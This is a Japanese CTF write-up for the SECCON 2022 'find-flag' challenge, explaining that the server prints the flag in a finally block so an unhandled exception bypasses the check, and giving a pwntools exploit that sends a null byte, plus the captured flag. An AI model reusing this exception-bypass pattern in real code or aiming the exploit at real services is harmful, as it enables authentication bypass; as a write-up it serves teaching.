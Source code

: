 ```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: jp
lang-ref: SECCON 2022 - find - flag
hidden: true
---
```


# Find-Flag_jp

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

上記のコードで注目すべき点は、FLAG出力がfinallyの中にあるということだ。

すなわち、check()関数で例外を発生させてcheck過程を迂回できるのだ**。**

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

check()関数で例外処理されたERRORリストである。

該当例外ではない他の例外を起こせば迂回が可能だ。

私はValueError:embedded null byteを使って迂回を進めた

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

上記はDockerを実行せずにローカルで回すためにcコードを使用してコードを実行させる過程だ。

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())F
```

![Untitled](Find-Flag_jp%2081df61de7b584246895c2c9251e6ffea/Untitled.png)

FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}